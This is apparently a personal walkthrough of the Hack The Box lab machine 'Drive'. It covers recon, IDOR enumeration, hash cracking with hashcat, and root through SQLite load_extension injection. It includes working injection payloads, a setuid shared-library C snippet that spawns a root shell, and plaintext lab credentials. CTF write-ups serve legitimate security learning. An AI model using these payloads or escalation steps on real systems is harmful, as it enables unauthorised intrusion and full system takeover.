





## Machine Info


## Recon

- `nmap -sT -sV -sC -O -p 22,80 -oA nmap/detail 10.10.11.235`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 27:5a:9f:db:91:c3:16:e5:7d:a6:0d:6d:cb:6b:bd:4a (RSA)
|   256 9d:07:6b:c8:47:28:0d:f2:9f:81:f2:b8:c3:a6:78:53 (ECDSA)
|_  256 1d:30:34:9f:79:73:69:bd:f6:67:f3:34:3c:1f:f9:4e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://drive.htb/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- attack vector: 22-ssh, 80-http
- subdomain -> nothing
- path
  - `$ feroxbuster -u http://drive.htb`
  - contact, login logout, register, uploads, upload, home

```bash
404      GET       10l       21w      179c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        0l        0w        0c http://drive.htb/contact => http://drive.htb/contact/
301      GET        0l        0w        0c http://drive.htb/logout => http://drive.htb/logout/
301      GET        0l        0w        0c http://drive.htb/register => http://drive.htb/register/
301      GET        0l        0w        0c http://drive.htb/login => http://drive.htb/login/
302      GET        0l        0w        0c http://drive.htb/uploads => http://drive.htb/login/
301      GET        0l        0w        0c http://drive.htb/upload => http://drive.htb/upload/
301      GET        0l        0w        0c http://drive.htb/home => http://drive.htb/home/
```

## Foothold

### 80 - http -> get a shell

#### drive

- qwe123:okokok
- file upload


- ASCII text MIME types -> HTTP field -> php file upload [x]
- concrete file path: http://drive.htb/113/getFileDetail/
    - 113, number of file id
    - getFileDetail, operation on file
        - view
        - edit
        - delete
        - change properties


- cookie -> csrf -> csrftoken, csrfmiddlewaretoken -> check django csrf mechanism [x]





- http://drive.htb/113/getFileDetail/ -> `document_id + handler` -> **intrude all doc_ids**

  - `{n}/getFileDetail/`

  - `{n}/getGroupDetail/`

  - `{n}/block/` -> **block** ~= forbidden func -> more check


#### block mesgs -> cred -> get a shell


- cred: **martin:Xk4@KjyrYv8t194L!**




- middleware -> fixed csrf


- `/var/www/backups`

## Privilege Escalation

### martin -> tom

- `$ ssh martin@$IP`
- `martin@drive:~$ cat /etc/passwd | grep bash`

```bash
root:x:0:0:root:/root:/bin/bash
git:x:115:119:Git Version Control,,,:/home/git:/bin/bash
martin:x:1001:1001:martin cruz,,,:/home/martin:/bin/bash
cris:x:1002:1002:Cris Disel,,,:/home/cris:/bin/bash
tom:x:1003:1003:Tom Hands,,,:/home/tom:/bin/bash
```

- sudo -l [x]

- **check backup file** -> `martin@drive:/var/www/backups$ ls -l`

```bash
martin@drive:/var/www/backups$ ls -l
total 3732
-rw-r--r-- 1 www-data www-data   13018 Sep  1 20:00 1_Dec_db_backup.sqlite3.7z
-rw-r--r-- 1 www-data www-data   12226 Sep  1 20:00 1_Nov_db_backup.sqlite3.7z
-rw-r--r-- 1 www-data www-data   12722 Sep  1 20:00 1_Oct_db_backup.sqlite3.7z
-rw-r--r-- 1 www-data www-data   12770 Sep  1 20:00 1_Sep_db_backup.sqlite3.7z
-rwxr-xr-x 1 root     root     3760128 Dec 26  2022 db.sqlite3
```

- compressed files need password -> crack by john [x]
    - db.sqlite3 -> hashed password -> crack by hashcat [x]
    - [example_hashes [hashcat wiki\]](https://hashcat.net/wiki/doku.php?id=example_hashes) -> -m 124

```bash
$ ls
1_Dec_db_backup.sqlite3.7z  1_Nov_db_backup.sqlite3.7z  1_Oct_db_backup.sqlite3.7z  1_Sep_db_backup.sqlite3.7z  db.sqlite3

$ 7z x 1_Dec_db_backup.sqlite3.7z

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,4 CPUs 13th Gen Intel(R) Core(TM) i9-13900H (B06A2),ASM,AES-NI)

Scanning the drive for archives:
1 file, 13018 bytes (13 KiB)

Extracting archive: 1_Dec_db_backup.sqlite3.7z
--
Path = 1_Dec_db_backup.sqlite3.7z
Type = 7z
Physical Size = 13018
Headers Size = 170
Method = LZMA2:22 7zAES
Solid = -
Blocks = 1


Enter password (will not be echoed):
```


- **linpeas** -> gitea service

```bash
╔══════════╣ Executable files potentially added by user (limit 70)
2023-09-06+02:56:34.9858469460 /usr/local/sbin/laurel
2023-02-04+09:32:37.9138327970 /usr/local/bin/gunicorn
2023-02-04+09:04:03.1905458990 /usr/local/bin/django-admin
2023-02-04+09:03:59.1353690270 /usr/local/bin/sqlformat
2023-02-04+09:01:15.1951738040 /usr/local/bin/cythonize
2023-02-04+09:01:15.1951738040 /usr/local/bin/cython
2023-02-04+09:01:15.1951738040 /usr/local/bin/cygdb
2023-02-03+22:19:27.3521802040 /usr/local/bin/pipreqs
2022-12-25+05:57:32.5523324050 /usr/local/bin/gitea

╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::3000                 :::*                    LISTEN      - (-> Gitea)
```

- 3000 port (a service running) -> port forwarding -> local access
    - `$ ssh -L 3000:127.0.0.1:3000 martin@10.10.11.235`
    - cred: **martin@drive.htb:Xk4@KjyrYv8t194L!**
    - get a repo -> git clone to local


- git clone

```bash
$ git clone http://localhost:3000/crisDisel/DoodleGrive.git
Cloning into 'DoodleGrive'...
Username for 'http://localhost:3000': martin@drive.htb
Password for 'http://martin@drive.htb@localhost:3000':
remote: Enumerating objects: 227, done.
remote: Counting objects: 100% (227/227), done.
remote: Compressing objects: 100% (187/187), done.
remote: Total 227 (delta 46), reused 209 (delta 36)
Receiving objects: 100% (227/227), 2.67 MiB | 1.12 MiB/s, done.
Resolving deltas: 100% (46/46), done.
```

- code audit repo -> find compression password -> **H@ckThisP@ssW0rDIfY0uC@n:)**



- uncompressed files



- collect hash

```
pbkdf2_sha256$390000$ZjZj164ssfwWg7UcR8q4kZ$KKbWkEQCpLzYd82QUBq65aA9j3+IkHI6KK9Ue8nZeFU=	2022-12-26 06:21:34.294890	1	admin
pbkdf2_sha256$390000$npEvp7CFtZzEEVp9lqDJOO$So15//tmwvM9lEtQshaDv+mFMESNQKIKJ8vj/dP4WIo=	2022-12-24 22:39:42.847497	0	jamesMason
pbkdf2_sha256$390000$GRpDkOskh4irD53lwQmfAY$klDWUZ9G6k4KK4VJUdXqlHrSaWlRLOqxEvipIpI5NDM=	2022-12-24 12:55:10.152415	0	martinCruz
pbkdf2_sha256$390000$wWT8yUbQnRlMVJwMAVHJjW$B98WdQOfutEZ8lHUcGeo3nR326QCQjwZ9lKhfk9gtro=	2022-12-26 06:20:23.299662	0	tomHands
pbkdf2_sha256$390000$TBrOKpDIumk7FP0m0FosWa$t2wHR09YbXbB0pKzIVIn9Y3jlI3pzH0/jjXK0RDcP6U=	2022-12-24 16:51:53.717055	0	crisDisel

sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a	2022-12-26 05:48:27.497873	0	jamesMason
sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f	2022-12-24 12:55:10	0	martinCruz
sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a	2022-12-24 13:17:45	0	tomHands
sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f	2022-12-24 16:51:53	0	crisDisel
sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3	2022-12-26 05:43:40.388717	1	admin

sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a	2022-12-26 05:48:27.497873	0	jamesMason
sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f	2022-12-24 12:55:10	0	martinCruz
sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141	2022-12-26 06:02:42.401095	0	tomHands
sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f	2022-12-24 16:51:53	0	crisDisel
sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3	2022-12-26 05:43:40.388717	1	admin

sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a	2022-12-26 05:48:27.497873	0	jamesMason
sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f	2022-12-24 12:55:10	0	martinCruz
sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93	2022-12-26 06:03:57.371771	0	tomHands
sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f	2022-12-24 16:51:53	0	crisDisel
sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3	2022-12-26 05:43:40.388717	1	admin
```

- hashcat to crack hashes -> `hashcat -m 124 -a 0 hash /usr/share/wordlists/rockyou.txt`

```bash
$ hashcat -m 124 -a 0 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-13th Gen Intel(R) Core(TM) i9-13900H, 2917/5898 MB (1024 MB allocatable), 4MCU

$ hashcat -m 124 -a 0 hash /usr/share/wordlists/rockyou.txt --show
sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:johnmayer7 <- tomHands
sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141:johniscool <- tomHands
sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93:john boy <- tomHands
```

```bash
$ hashcat -m 10000 -a 0 hash1 /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-13th Gen Intel(R) Core(TM) i9-13900H, 2917/5898 MB (1024 MB allocatable), 4MCU
```

- correct cred: **tomHands:johnmayer7**

### tom enumeration

- sudo -l [x]
- suid: find / -perm u=s -type f 2>/dev/null [x]
- guid: find / -perm g=s -type f 2>/dev/null [x]

- importanct files: **README.md**, **doodleGrive-cli**

```
Hi team
after the great success of DoodleGrive, we are planning now to start working on our new project: "DoodleGrive self hosted",it will allow our customers to deploy their own documents sharing platform privately on thier servers...
However in addition with the "new self Hosted release" there should be a tool(doodleGrive-cli) to help the IT team in monitoring server status and fix errors that may happen.
As we mentioned in the last meeting the tool still in the development phase and we should test it properly...
We sent the username and the password in the email for every user to help us in testing the tool and make it better.
If you face any problem, please report it to the development team.
Best regards.
```

**?** DoodleGrive self hosted -> monitor server status -> unchangable script -> find doodleGrive elf file

**?** username:passwd -> email mesg -> how to find -> [x]


- linpeas + pspy -> nothing [x]


### doodleGrive reversing

- find cred: **moriarty:findMeIfY0uC@nMr.Holmz!**


```
tom@drive:~$ ./doodleGrive-cli
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
moriarty
Enter password for moriarty:
findMeIfY0uC@nMr.Holmz!
Welcome...!

doodleGrive cli beta-2.2:
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
```

- understand program flow -> find an interesting option, **5 activate user account**




- get sql command: `/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlit3 -line UPDATE accounts_customuser SET is_active=1 WHERE username="**%s**";`
  - **sqlite command injection**, [PayloadsAllTheThings/SQL Injection/SQLite Injection.md at master · swisskyrepo/PayloadsAllTheThings (github.com)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/SQLite Injection.md#remote-command-execution-using-sqlite-command---load_extension)
  - **shared library exploit**
  - char(xx,xx,xx) -> **bypass** sanitize_string()
  - **payload**: `%s -> root" UNION SELECT 1,load_extension('./a');-- -` or `%s -> root";load_extension('./a');-- -` -> `root";+load_extension(char(46,47,97))--` or `root"+UNION+SELECT+1,load_extension(char(46,47,97))--`

- `gcc -fPIC -shared -o a.so a.c`

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject() {
	setuid(0);
	setgid(0);
	system("/bin/bash -p");
}
```

### tom -> root

- ./doodleGrive-cli -> choose 5 -> input payload -> export PATH -> root shell


